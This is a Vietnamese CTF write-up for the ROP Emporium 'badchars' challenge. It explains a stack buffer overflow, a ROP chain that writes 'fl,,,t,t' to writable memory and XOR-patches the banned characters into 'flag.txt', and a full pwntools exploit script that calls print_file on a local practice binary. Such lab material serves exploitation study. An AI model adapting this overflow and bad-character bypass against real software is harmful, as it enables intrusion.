







# ROP_Emporium - badchars

# 1. Tìm lỗi

Ta sẽ dùng lệnh `file` để xem thông tin file challenge:
```
badchars: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=6c79e265b17cf6845beca7e17d6d8ac2ecb27556, not stripped

```
Đây là file 64-bit không bị ẩn tên hàm. Kế đến, ta sẽ kiểm tra security của file:

```
Arch:     amd64-64-little
RELRO:    Partial RELRO
Stack:    No canary found
NX:       NX enabled
PIE:      No PIE (0x400000)
RUNPATH:  b'.'

```
Ta thấy chỉ có NX được bật, tức là ta không thể thực thi code nằm trên stack được. Tiếp theo, ta mở file bằng IDA PRO 64bit. Có thể thấy hàm khai thác là hàm **pwnme()**:

Hàm pwnme()


Ở đây ta không nhìn được cách hàm pwnme() hoạt động nên ta sẽ đọc mã assembly từ file binary:



Còn có hàm usefulFunction()


cũng như usefulGadgets()



# 2. Ý tưởng

Có thể thấy chức năng hàm usefulFunction() để in ra file nên ta sẽ lợi dụng BOF để sửa tham số **nonexistent** thành **flag.txt** để hàm này đọc flag file và in ra

--> ROP_chain

# 3. Khai thác

Ta sẽ tìm offset tới rip bằng gdb như sau:


Có thể thấy ở hàm usefulFunction() sẽ lấy tham số để đọc file bằng thanh ghi edi --> ta sẽ truyền tham số mới cho edi tại đây



Đối với usefulGadgets() có **xor    BYTE PTR [r15],r14b** dùng để thực hiện việc XOR một byte được chỉ định trong thanh ghi R14 với byte tại địa chỉ được lưu trữ trong thanh ghi R15 và được lưu trữ tại địa chỉ được chỉ định trong thanh ghi R15



Mà trong file không có sẵn chuỗi "flag.txt"
--> Ta sẽ dùng usefulGadgets() để ghi chuỗi "flag.txt" vào 1 vị trí trống nào đó

Tìm 1 địa chỉ trống có quyền ghi:


ở đây trong khoảng [0x00601000 - 0x00602000] có quyền đọc và ghi

Tiếp đến kiếm đại 1 địa chỉ trống:



ở đây mình sẽ lấy **0x6010f0**

# Quan trọng

Chạy thử chương trình:


Như tên chương trình **badchars**, khi ta nhập vào nhưng ký tự **'x', 'g', 'a', '.'** thì khi lưu vào thanh ghi thì ký tự đó bị biến đổi

Sử dụng gdb nhập vào input với b"a"*0x50 ta được:



Chính bởi việc các ký tự **'x', 'g', 'a', '.'** bị cấm nên ta sẽ chỉ ghi được **fl___t_t** của file flag muốn đọc nên ta sẽ tận dụng **xor    BYTE PTR [r15],r14b** của usefulGadgets() để biến đổi byte và lưu vào địa chỉ của r15.

ROP_chain ta sẽ làm như sau:

- pop_r12_r13_r14_r15 
- đưa giá trị "fl,,,t,t" vào r12 do các ký tự **'x', 'g', 'a', '.'** bị cấm
- đưa địa chỉ lưu chuỗi vào r13
- đưa byte cần xor với [r15] vào r14
- đưa địa chỉ chứa byte cần xor với r14 vào r15 và sau khi xor lưu lại [r15]
- mov_r12_r13 dùng để đẩy giá trị r12 vào [r13]
- dùng hàm usefulGadgets() để sử dụng phép **xor    BYTE PTR [r15],r14b**
- lặp lại 3 lần phép **xor    BYTE PTR [r15],r14b** để sửa giá trị chuỗi từ "fl,,,t,t" thành "flag.txt"
- pop thanh ghi rdi
- đưa địa chỉ chứa chuỗi "flag.txt" vào rdi
- gọi đến hàm **printf_file** sau khi đã setup xong rdi

Full code:
```
from pwn import*
context.log_level       = "DEBUG"
context.arch            = "amd64"

elf = context.binary = ELF('./badchars', checksec=False)

p = process("./badchars")

#gdb.attach(p, gdbscript='''
#b*pwnme+268
#c
#x/s 0x6010f0
#''')

ret = ROP(elf).find_gadget(["ret"])[0]
pop_rdi_ret = ROP(elf).find_gadget(["pop rdi", "ret"])[0]
pop_r14_r15 = ROP(elf).find_gadget(["pop r14", "pop r15", "ret"])[0]
mov_r12_r13 = 0x0000000000400634
pop_r12_r13_r14_r15 = 0x000000000040069c
vuln = elf.sym['usefulFunction']
gadget = elf.sym['usefulGadgets']

null_addr = 0x6010f0                #địa chỉ lưu chuỗi "flag.txt"
   
payload1 = flat(
	cyclic(0x28),
	pop_r12_r13_r14_r15,
	b"fl,,,t,t",
	null_addr,
	p64(2),                         #2 xor với byte ',' có giá trị là 0x2c thì kết quả sẽ là byte "." có giá trị 0x2e và lưu vào null_addr+4        "fl,,.t,t"
	null_addr+4,
	mov_r12_r13,
	gadget,
	
	pop_r14_r15,
	p64(75),                        #75 xor với byte ',' có giá trị là 0x2c thì kết quả sẽ là byte "g" có giá trị 0x67 và lưu vào null_addr+3       "fl,g.t,t"
	null_addr+3,
	gadget,
	
	pop_r14_r15,
	p64(77),                        #77 xor với byte ',' có giá trị là 0x2c thì kết quả sẽ là byte "a" có giá trị 0x61 và lưu vào null_addr+2       "flag.t,t"
	null_addr+2,
	gadget,
	
	pop_r14_r15,
	p64(84),                        #84 xor với byte ',' có giá trị là 0x2c thì kết quả sẽ là byte "x" có giá trị 0x78 và lưu vào null_addr+2       "flag.txt"
	null_addr+6,
	gadget,
	
	pop_rdi_ret,
	null_addr,
	vuln+9
	
    )

p.sendlineafter(b">",payload1)
p.interactive()


```
# 4. Lấy flag




